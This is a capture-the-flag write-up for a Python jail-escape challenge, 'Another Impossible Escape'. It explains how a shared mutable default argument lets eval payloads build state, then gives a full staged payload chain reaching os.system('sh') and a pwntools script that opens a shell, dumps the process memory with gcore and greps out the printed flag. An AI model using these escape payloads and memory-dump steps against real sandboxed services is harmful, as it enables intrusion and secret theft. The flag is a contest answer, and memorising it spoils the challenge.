 # Another Impossible Escape

**CTF:** Srdnlen CTF 2025

**Category:** Misc / PyJail

**Difficulty:** Hard

**Solves:** 17

**Author:** [@uNickz](https://github.com/uNickz) (Nicholas Meli)

---

## Description

> This year, the Impossible Escape is back! But this time, it's in a limited edition!
> 
> This is a remote challenge, you can connect to the service with: `nc aie.challs.srdnlen.it 3434`

---

## Overview

<details>
<summary>Challenge Source Code</summary>

```py
#!/usr/bin/env python3
import sys
import re

BANNER = r"""
############################################################
#       _                _   _                             #
#      / \   _ __   ___ | |_| |__   ___ _ __               #
#     / _ \ | '_ \ / _ \| __| '_ \ / _ \ '__|              #
#    / ___ \| | | | (_) | |_| | | |  __/ |                 #
#   /_/   \_\_| |_|\___/ \__|_| |_|\___|_|                 #
#      ___                               _ _     _         #
#     |_ _|_ __ ___  _ __   ___  ___ ___(_) |__ | | ___    #
#      | || '_ ` _ \| '_ \ / _ \/ __/ __| | '_ \| |/ _ \   #
#      | || | | | | | |_) | (_) \__ \__ \ | |_) | |  __/   #
#     |___|_| |_| |_| .__/ \___/|___/___/_|_.__/|_|\___|   #
#    _____          |_|                                    #
#   | ____|___  ___ __ _ _ __   ___                        #
#   |  _| / __|/ __/ _` | '_ \ / _ \                       #
#   | |___\__ \ (_| (_| | |_) |  __/   (Author: @uNickz)   #
#   |_____|___/\___\__,_| .__/ \___|                       #
#                       |_|                                #
#                                                          #
############################################################
""" 

FLAG = "srdnlen{Wh4t?_DuMp1nG_S0uRc3_C0d3_Fr0m_RuNn1nG_Pr0c3sS}"
del FLAG

class IE:
    def __init__(self) -> None:
        print(BANNER)
        print("Welcome to an other Impossible Escape!")
        print("This time in a limited edition! More information here:", sys.version)

        self.try_escape()
        return

    def code_sanitizer(self, dirty_code: str) -> str:
        if len(dirty_code) > 60:
            print("Code is too long. Exiting.")
            exit()

        if not dirty_code.isascii():
            print("Alien material detected... Exiting.")
            exit()

        banned_letters = ["m", "w", "f", "q", "y", "h", "p", "v", "z", "r", "x", "k"]
        banned_symbols = [" ", "@", "`", "'", "-", "+", "\\", '"', "*"]
        banned_words = ["input", "self", "os", "try_escape", "eval", "breakpoint", "flag", "system", "sys", "escape_plan", "exec"]

        if any(map(lambda c: c in dirty_code, banned_letters + banned_symbols + banned_words)):
            print("Are you trying to cheat me!? Emergency exit in progress.")
            exit()
        
        limited_items = {
            ".": 1,
            "=": 1,
            "(": 1,
            "_": 4,
        }

        for item, limit in limited_items.items():
            if dirty_code.count(item) > limit:
                print("You are trying to break the limits. Exiting.")
                exit()

        cool_code = dirty_code.replace("\\t", "\t").replace("\\n", "\n")
        return cool_code
    
    def escape_plan(self, gadgets: dict = {}) -> None:
        self.code = self.code_sanitizer(input("Submit your BEST Escape Plan: ").lower())
        return eval(self.code, {"__builtins__": {}}, gadgets)
        
    def try_escape(self) -> None:
        tries = max(1, min(7, int(input("How many tries do you need to escape? "))))

        for _ in range(tries):
            self.escape_plan()

        return

if __name__ == "__main__":
    with open(__file__, "r") as file_read:
        file_data = re.sub(r"srdnlen{.+}", "srdnlen{REDATTO}", file_read.read(), 1)

    with open(__file__, "w") as file_write:
        file_write.write(file_data)
    
    IE()
```
</details>
<br />

The first observation in this challenge is that the flag is initially defined as a global variable in the source code. However, it is immediately removed both from the runtime environment and the file on disk. As a result, it cannot be accessed simply by reading the file.

The program allows you to send between `1` and `7` "escape plans" (payloads), which are executed using the `eval` function.

### Input Restrictions

Before execution, the submitted code undergoes sanitization to prevent:
- The use of non-ASCII characters
- The use of dangerous keywords
- The presence of unauthorized symbols

Additional restrictions include:
- A maximum length of `60` characters
- No more than 1 dot (`.`)
- No more than 1 equal sign (`=`)
- No more than 1 opening parenthesis (`(`)
- No more than 4 underscores (`_`)

---

## Exploitation

The exploit consists of two main stages:
1. **Obtaining a shell**
2. **Retrieving the flag**

### 1. Obtaining a Shell

By analyzing the `escape_plan` function, we observe that the payload is executed via `eval` with an empty global environment and a `gadgets` dictionary as the local environment:

```python
def escape_plan(self, gadgets: dict = {}) -> None:
    self.code = self.code_sanitizer(input("Submit your BEST Escape Plan: ").lower())
    return eval(self.code, {"__builtins__": {}}, gadgets)
```

Although the `gadgets` dictionary appears to be empty initially, in Python, default arguments in functions are mutable objects shared across successive calls. This behavior allows us to modify the `gadgets` dictionary during one call and reuse it in subsequent iterations.

We exploit this characteristic to progressively build a persistent context in which we can carry out an attack. Our goal is to execute the following payload to open a shell:

```py
().__class__.__base__.__subclasses__()[155].__init__.__globals__["system"]("sh")
```

#### Payload Analysis

1. `()`: Creates an empty tuple.
2. `.__class__`: Accesses the class of the `tuple` object.
3. `.__base__`: Navigates to the superclass of `tuple`, which is `object`.
4. `.__subclasses__()`: Retrieves a list of all subclasses of `object`.
5. `[155]`: Selects the desired subclass. In many Python environments, this corresponds to the `os._wrap_close` class.
6. `.__init__.__globals__`: Accesses the global references of the `__init__` method of the selected class.
7. `["system"]("sh")`: Executes a system command, opening a shell.

### 2. Retrieving the Flag

Once we have a shell, we can attempt to recover the flag by dumping the process's heap memory. A common strategy involves using `gdb` and `gcore` to perform a memory dump and analyze it later.

A 2017 article titled "[How to recover lost Python source code if it's still resident in-memory](https://gist.github.com/simonw/8aa492e59265c1a021f5c5618f9e6b12?permalink_comment_id=2024943#gistcomment-2024943)" describes this technique in detail.

---

## Solution

### 1. Building the Payload

To bypass input restrictions, the payload is constructed step by step, leveraging the `gadgets` dictionary to store intermediate variables:

1. `[a := ().__class__ ]` &rarr; `a = <class 'tuple'>`
2. `[a := a.__base__ ]` &rarr; `a = <class 'object'>`
3. `[a := a.__subclasses__()[41:156:114] ]` &rarr; `a = [<class 'list'>, <class 'os._wrap_close'>]` 
4. `[a := [a[0], a[1].__init__] ]` &rarr; `a = [<class 'list'>, <function _wrap_close.__init__ at 0x7f003e1e7100>]`
5. `[a := [a[1], a[0](a[1].__globals__)] ]` &rarr; `a = [<function _wrap_close.__init__ at 0x7f82bab27100>, list(os._wrap_close.__init__.__globals__)]`
6. `a[0].__globals__[a[1][46]](a[1][57][:3:2])` &rarr; `os._wrap_close.__init__.__globals__["system"]("sh")`
    - `a[1][46]` is the string `"system"`
    - `a[1][57]` is the string `"sched_get_priority_max"`, and `a[1][57][:3:2]` is the string `"sh"`

### 2. Memory Dump

1. Identify the process's PID:
    - Retrieve the username with `whoami`.
    - Find the process PID with `grep -l './chall.py' /proc/[0-9]*/cmdline`.

2. Perform a memory dump with `gcore <PID>`.
3. Extract the flag from the dump using `cat core.* | grep -a -e 'srdnlen{.*}'`.

### Exploit

```py
#!/usr/bin/env python3

import time

from pwn import *

io = remote("aie.challs.srdnlen.it", 3434)

payloads = [
    "[a:=().__class__]", # <class 'tuple'>
    "[a:=a.__base__]", # <class 'object'>
    "[a:=a.__subclasses__()[41:156:114]]", # [<class 'list'>, <class 'os._wrap_close'>]
    "[a:=[a[0],a[1].__init__]]", # [<class 'list'>, <function _wrap_close.__init__ at 0x7f003e1e7100>]
    "[a:=[a[1],a[0](a[1].__globals__)]]", # [<function _wrap_close.__init__ at 0x7f82bab27100>, list(os._wrap_close.__init__.__globals__)]
    "a[0].__globals__[a[1][46]](a[1][57][:3:2])", # os._wrap_close.__init__.__globals__["system"]("sh")
]

io.sendlineafter(b"How many tries do you need to escape? ", str(len(payloads)).encode())

for payload in payloads:
    io.sendlineafter(b"Submit your BEST Escape Plan: ", payload.encode())

time.sleep(0.5) # wait for the shell to spawn

# find the name of the user running the challenge
io.sendline(b"whoami")
user = io.recvline().strip().decode()

# find the PID of the process running the challenge
io.sendline(b"grep -l './chall.py' /proc/[0-9]*/cmdline")
procs = io.recvrepeat(0.5).strip().decode().splitlines()

pid = None
for p in procs:
    io.sendline(f"cat {p}".encode())
    file_data = io.recvrepeat(0.5).strip().decode()
    if user in file_data:
        pid = int(p.split("/")[2])+1
        break

assert pid is not None

# dump the memory of the process
io.sendline(f"gcore {pid}".encode())

time.sleep(0.5) # wait for the memory dump to be created

# extract the flag from the memory dump
io.sendline(b"cat core.* | grep -a -o -e 'srdnlen{.*}'")

flag = max(io.recvrepeat(0.5).strip().decode().splitlines())
print(flag)

io.close()
```

## Flag

```
srdnlen{Wh4t?_DuMp1nG_S0uRc3_C0d3_Fr0m_RuNn1nG_Pr0c3sS}
```